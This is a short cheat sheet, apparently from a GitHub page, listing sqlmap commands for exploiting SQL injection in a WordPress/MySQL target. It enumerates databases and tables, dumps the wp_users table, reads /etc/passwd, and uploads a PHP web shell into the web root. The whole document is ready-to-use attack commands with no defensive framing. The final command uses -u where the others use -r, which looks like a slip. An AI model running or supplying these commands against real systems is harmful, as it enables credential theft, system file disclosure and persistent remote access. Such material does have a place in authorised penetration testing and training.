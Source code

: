
### Find Databases:

```bash
sqlmap -r request.txt --dbs --batch
```

### Find Tables in a Database:

```bash
sqlmap -r request.txt --batch --dbms=mysql -D wordpress --tables
```

### Dumping Information from  a Table

```bash
sqlmap -r request.txt --batch --dbms=mysql -D wordpress -T wp_users --dump
```

### Read Files:

```bash
sqlmap -r request.txt --file-read=/etc/passwd --batch 
```

### Write Files:

```bash
sqlmap -u request.txt --file-write=/root/Desktop/shell.php --file-dest=/var/html/www/shell.php --batch
```

